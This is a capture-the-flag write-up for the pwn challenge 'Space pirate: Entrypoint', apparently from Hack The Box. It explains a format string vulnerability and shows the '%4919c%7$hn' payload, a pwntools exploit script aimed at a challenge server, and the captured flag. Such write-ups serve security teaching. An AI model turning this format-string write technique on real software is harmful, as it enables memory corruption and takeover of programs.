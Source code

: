 # Space pirate: Entrypoint
> Write-up author: jon-brandy
## DESCRIPTION:
D12 is one of Golden Fang's missile launcher spaceships. 
Our mission as space pirates is to highjack D12, get inside the control panel room, and access the missile launcher system. 
To achieve our goal, we split the mission into three parts. In this part, all we need to do is bypass the scanning system and open the gates so that we proceed further.
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given, then jump to the extracted directory.

> INSIDE

![image](https://user-images.githubusercontent.com/70703371/209463673-48df0692-e65e-4194-9ae2-be80e6856bad.png)


2. Check the file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209463681-989c4cff-3dce-494f-8d61-6c1af86af3b0.png)


3. Check the binary's protection.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209463703-79b1a4cc-5ea0-4fc3-843a-43fa24c83d93.png)


4. All protection's enabled.
5. Hmmm.. Let's run the file in gdb.

![image](https://user-images.githubusercontent.com/70703371/209463724-cccbe67c-76a5-4079-a654-ab8fbd6c2f50.png)


![image](https://user-images.githubusercontent.com/70703371/209463733-669e653f-1a16-486d-aea7-6c75b5fda4d0.png)


![image](https://user-images.githubusercontent.com/70703371/209463740-66d11232-6398-4630-97fb-694386ace618.png)


6. Let's decompile the binary using ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209463764-7578b83f-2012-4a18-a860-9cd436c81d04.png)


7. It looks like we can utilize format string vulnerability here.

![image](https://user-images.githubusercontent.com/70703371/209463825-73020a6a-1121-4f06-b952-89b128fd1c18.png)


8. If the `local_48` value is eq to **0xdead1337**, then the program will execute the `open_door()` function.

![image](https://user-images.githubusercontent.com/70703371/209464871-10f1ddb4-a41c-4c9e-a2fb-739ecd578909.png)


> OPEN_DOOR -> a function that will give us the flag

![image](https://user-images.githubusercontent.com/70703371/209464882-b49cc0c9-9fe2-4d8d-bc05-2990568f0c99.png)


9. However, the `local_48` value is **0xdeadbeef** not **0xdead1337**.
10. Remember that the `local_40` saves the address of `local_48`.

![image](https://user-images.githubusercontent.com/70703371/209464944-a52ddd88-f28b-4a61-9b7e-44168631a5b6.png)


11. Hence, we can utilize format string vuln to overwrite the first 2 bytes of `local_48` value.
12. Now run, the binary, choose option 1, then input 8 %p.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209465122-13eeff3b-e788-42f4-b77f-918d3e41b354.png)


13. Based from the output, we know that **0xdeadbeef** is at offset 6 and **0xdead1337** is at offset 7. 
14. Get the decimals value of **0x1337** -> `4919`.
15. Means the input shall look like this -> `%4919c%7$hn`.
16. To make it clear:

```
"%" indicates the start of a format specifier in a format string.
"4919" decimal value of 0x1337.
"c" is a conversion specifier that indicates the value to be printed as a character.
"%7$" is a positional specifier that specifies the argument index to be printed. In this case, it refers to the seventh argument.
"hn" is a length modifier that specifies that the argument should be interpreted as a short integer and printed as a halfword (2 bytes) in a specific format.
```

17. To get the flag, actually u don't need to make the script, but i just want to make it 😁

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')
context.log_level = 'debug'
sh = remote('142.93.37.215', 30803)
sh.recvuntil("> ")
sh.sendline(b'1')
sh.recvuntil(": ")
A = b'%4919c%7$hn'
sh.sendline(A)
sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/209465379-85f5adb9-1aa3-4ccd-9e8d-1163907fe90f.png)


18. Got the flag!

## FLAG

```
HTB{g4t3_0n3_d4rkn3e55_th3_w0rld_0f_p1r4t35}
```

